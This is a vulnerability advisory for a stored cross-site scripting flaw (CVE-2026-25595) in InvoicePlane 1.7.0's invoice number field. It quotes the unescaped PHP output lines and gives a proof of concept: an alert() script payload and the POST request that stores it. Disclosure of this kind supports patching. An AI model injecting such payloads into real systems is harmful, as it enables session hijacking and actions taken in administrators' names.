


# CVE-2026-25595 — Stored XSS via Invoice Number in InvoicePlane 1.7.0

**Vulnerability:** Stored Cross-Site Scripting (XSS) via Invoice Number field

**Product:** [InvoicePlane](https://invoiceplane.com)

**Affected Version:** 1.7.0 (and likely prior versions)

**Severity:** Medium

**CVSS 3.1 Score:** 4.8 (`CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:C/C:L/I:L/A:N`)

**CWE:** CWE-79: Improper Neutralization of Input During Web Page Generation

**Discovered by:** Leonidas Agathos

**Report Date:** 2026-01-31

---

## Description

The `invoice_number` field in the invoice form accepts arbitrary input without sanitization. The value is stored and rendered unencoded in multiple locations: the invoice view page title, the invoice number input field, and the dashboard's recent invoices widget. The payload fires whenever any admin views the affected invoice or visits the dashboard.

**Vulnerable files:**

- `application/modules/invoices/views/view.php:247`
- `application/modules/invoices/views/view.php:494`
- `application/modules/dashboard/views/index.php:233`

```php
// view.php - Line 247
<?php echo trans('invoice') . ' ' . ($invoice->invoice_number ? '#' .
$invoice->invoice_number : trans('id') . ': ' . $invoice->invoice_id); ?>

// view.php - Line 494
value="<?php echo $invoice->invoice_number; ?>"

// dashboard/index.php - Line 233
<?php echo anchor('invoices/view/' . $invoice->invoice_id, ($invoice->invoice_number
    ? $invoice->invoice_number : $invoice->invoice_id)); ?>
```

---

## Proof of Concept

**Step 1 — Inject payload into Invoice Number**

Create or edit an invoice at `/index.php/invoices/form/{id}` and set the invoice number to:

```
<script>alert("XSS in Invoices")</script>
```

**Request:**

```http
POST /index.php/invoices/ajax/save HTTP/1.1
Host: 172.25.0.12
Content-Type: application/x-www-form-urlencoded

invoice_number=<script>alert("XSS+in+Invoices")</script>&invoice_id=22&...
```



**Step 2 — Trigger XSS**

Navigate to `/index.php/invoices/view/{id}` or `/index.php/dashboard`. The payload fires on page load.



---

## Impact

The payload executes in the browser of any admin who views the affected invoice or visits the dashboard. This enables session hijacking (if cookies are not HttpOnly), CSRF token theft, and actions performed under the victim's identity.

---

## Timeline

| Date | Event |
|------|-------|
| 2026-01-30 | Vulnerability discovered |
| 2026-01-31 | Proof of concept developed |
| 2026-01-31 | Vendor notified |
| 2026-02-04 | Vendor acknowledgment |
| 2026-02-04 | Patch released |
| 2026-02-05 | Public disclosure |

---

## References

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [CVE-2026-25595](https://nvd.nist.gov/vuln/detail/CVE-2026-25595)

---

## Disclaimer

This vulnerability was discovered during independent security research. All information is provided strictly for educational, research, and defensive purposes to assist the vendor and the security community in understanding and remediating the issue. Any malicious use of this information is strictly prohibited.
